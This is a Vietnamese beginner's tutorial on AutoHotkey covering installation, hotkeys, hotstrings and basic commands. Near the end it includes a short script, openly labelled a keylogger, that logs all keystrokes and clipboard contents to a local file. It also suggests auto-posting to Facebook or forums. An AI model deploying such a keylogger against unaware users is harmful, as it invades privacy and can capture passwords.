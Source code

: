 **Giới thiệu**

1. Tải về và tạo một chương trình đơn giản.

a. Tải Autohotkey.

b. Tạo 1 chương trình.

2. [Hotkeys &amp; Hotstrings](https://autohotkey.com/docs/Tutorial.htm#s2)

3. Một số lệnh cơ bản.

**1. Tải về và tạo một chương trình đơn giản.**

Autohotkey là một phần mềm hỗ trợ người dùng Window, giúp thực hiện các thao tác nhanh và thuận tiện hơn, phù hợp với người làm văn phòng. Tuy nhiên nếu bạn hiểu sâu hơn một chút và có các kiến thức lập trình, bạn cũng có thể tạo ra các ứng dụng phức tạp.

Ở đây mình hướng dẫn các bạn sử dụng các tính năng đơn giản, hữu ích mà không cần biết quá nhiều về lập trình.

a. Tải autohotkey.

Bản cài đặt:

https://autohotkey.com/download/ahk-install.exe

Bản Portable:

https://autohotkey.com/download/ahk.zip

Nên sử dụng bản cài đặt sẽ đầy đủ tính năng và có các chương trình hỗ trợ. Tải bản Portable nếu máy tính của bạn không cho phép cài đặt (máy tính công ty, quán game .....)

b. Tạo một chương trình.

Sau khi cài đặt xong, để bắt đầu với autohotkey, hãy thử tạo 1 chương trình bằng autohotkey.

**B.1. Tạo file ahk.**

Đầu tiên, ở màn hình desktop hoặc cửa sổ thư mục. Nhấn chuột phải, chọn **new \&gt; AutoHotkey script**.

Hoặc **Start \&gt; run \&gt; notepad** nhấn **Ctrl+S** để lưu file, chọn thư mục lưu, đặt tên file đuôi **.ahk,** phần **Save as type** chọn **All files** , phần **Encodeing** chọn **Unicode.**

**B.2. Viết 1 đoạn mã đơn giản.**

Nhấn chuột phải vào file **ahk** vừa tạo, chọn **edit** hoặc **open with notepad**

Soạn thảo dòng lệnh sau:

Msgbox Đây là thông báo

Lệnh này sẽ hiển thị lên màn hình 1 bảng thông báo với nội dung như trên. Giờ lưu lại là được.

**B.3. Chạy chương trình**

Với bản cài đặt, bạn chỉ cần chạy file ahk vừa tạo là được.

Với trường hợp bạn dùng bản Portable, sau khi lưu file, bạn cần biên dịch file ahk ra file exe để máy có thể hiểu được. Vào thư mục chứa autohotkey **AutoHotkey \&gt; Compiler,** chạy file **Ahk2Exe,** chọn file ahk, chọn thư mục xuất file exe. Sau đó chạy file exe là được. Chương trình không có vòng lặp hay định nghĩa nào nên nó sẽ kết thúc sau khi bạn nhấn ok.

**2. Cài đặt phím nóng và định nghĩa 1 chuỗi phím**

Tính năng đơn giản nhất và phổ biến nhất mà người dùng autohotkey sử dụng là để tạo các tổ hợp phím.

**a. Định nghĩa phím nóng.**

Có rất nhiều tổ hợp phím nóng trong window mà bạn có thể sử dụng, tuy nhiên đôi khi bạn không nhớ hết hoặc không tiện để sử dụng, hoặc tính năng không như bạn mong muốn, vì vậy bạn có thể đặt lại.

Đầu tiên hãy xem bảng ký tự mô tả các phím chức năng cơ bản.

| **#** | Win (phím logo Windows) |
| --- | --- |
| **!** | Alt |
| **^** | Ctrl |
| **+** | Shift |

Đây là các phím cơ bản, để xem tổng hợp tất cả các phím và các nút của chuột, hãy xem phần Key list

Ví dụ trình bày 1 định nghĩa phím: dùng Ctrl + A để khởi động Google Chrome

^a:: run C:\Program Files\Google\Chrome\Application\chrome.exe

Trong đó :: dùng để định nghĩa. Lệnh **run** để chạy 1 chương trình với link viết sau nó. Link cũng có thể là 1 địa chỉ web. Như ví dụ trên, tính năng Ctrl+A để chọn toàn bộ văn bản sẽ bị vô hiệu hóa.

**b. Định nghĩa 1 chuỗi phím.**

Tính năng này giống như viết tắt trong unikey, tuy nhiên, bạn có thể làm nhiều hơn thế. Ví dụ.

::hni:: Thành phố Hà Nội

Trong văn bản chỉ cần gõ **hni** và enter là được dòng chữ **Thành phố Hà Nội.** Hoặc thực thi 1 lệnh.

::chr:: run C:\Program Files\Google\Chrome\Application\chrome.exe

Chỉ cần gõ **chr** và enter để khởi động Google Chrome (lưu ý đường link có thể khác)

Ví dụ sau sẽ thực hiện nhiều lệnh.

::chr::

{

Run https://www.facebook.com

run http://vnexpress.net

run http://mp3.zing.vn/album/Thu-Hai-Luoi-Bieng-Various-Artists/ZOZ60AA9.html

run C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Games\Hearts.lnk

}

return

Đây chỉ là các ví dụ cơ bản, các bạn có thể xem phần Hotstrings &amp; auto-replace trong file hướng dẫn để sử dụng tính năng phức tạp hơn.

**3. Các lệnh cơ bản**

Khi mới bắt đầu, bạn không cần biết quá nhiều lệnh, và cùng không thể nhớ hết được, vì vậy mình liệt kê 1 số lệnh cơ bản hay dùng. Nhớ được thì tốt, mà không nhớ được thì tra file hướng dẫn.

**send** Gửi 1 phím hoặc 1 chuỗi phím từ bàn phím, vd:

send abc123qwerty

**click** Click tới 1 điểm trên màn hình máy tính của bạn, vd:

click 500, 300 ; click điểm có tọa độ 500, 300 trên màn hình

**sleep** Tạm dừng dòng lệnh, đơn vị ms

sleep 5000 ; tạm dừng 5 giây

**msgbox** hiện 1 bảng thông báo ra màn hình

msgbox Đây là thông báo

**run** Chạy 1 chương trình, 1 thư muc hoặc 1 trang web

Đây chỉ là cách mô tả cơ bản cho lệnh đó, chi tiết cách sử dụng có thể xem trong file hướng dẫn. Ngoài ra các bạn cũng có thể xem mô tả các hàm, biến .... để tạo ra 1 chương trình phức tạp hơn.

**4. Một số lưu ý.**

Dòng lệnh thực hiện từ trên xuống, trái sang phải.

Các định nghĩa có thể viết bất kỳ chỗ nào, không chạy nếu không được gọi.

Hãy thêm vào cuối chương trình của bạn dòng lệnh sau để bạn có thể kiểm soát được chương trình của mình. Tạm dừng hoặc tắt chương trình khi muốn. Ở đây mình đặt f8 để tạm dừng, f9 để tắt.

F8::pause

F9::ExitApp

Ví dụ sau đây mình viết 1 chương trình ghi lại tất cả các phím mà bạn nhập, tất cả những gì bạn lưu trong clipboard, có thể coi đây là keylogger. Tất cả sẽ được lưu ra file log.txt, các bạn có thể sửa lại theo ý mình.

Loop

{

Input key, L1 V

fileappend, % key, c:\log.txt

}

~bs:: fileappend, {backspace} , C:\log.txt

~^c::

{

sleep 2000

fileappend, `n- ***Copy:`n %Clipboard%`n***** `n , C:\log.txt

return

}

Các bạn xem các ví dụ không hiểu lệnh nào lên google gõ tên lệnh autohotkey là ra. Đọc file hướng dẫn rất chi tiết và dễ hiểu.

Có thể ứng dụng để tự động đăng bài, bình luận lên FB hoặc các diễn đàn, hoặc có thể dùng làm auto cho game....

**Các chương trình hỗ trợ**

AU3\_Spy Phần mềm cho biết tất cả các thông tin của con trỏ của bạn. Cho biết vị trí con trỏ trong cửa sổ, vị trí trong màn hình, tên cửa sổ đang mở, màu sắc .... Phần mềm này có trong thư mục autohotkey của bạn

Ahk2Exe Phần mềm biên dịch, tạo ra file exe từ file ahk của bạn, bạn có thể viết file ahk và biên dịch để gửi cho bạn bè sử dụng mà họ không cần cài autohotkey.

SciTE Phần mềm soạn thảo, thông thường có thể dùng notepad để viết chương trình, nhưng với các chương trình lớn, nhiều lệnh, phức tạp, nên dùng phần mềm này cho dễ nhìn, sẽ có gợi ý cấu trúc khi bạn viết 1 lệnh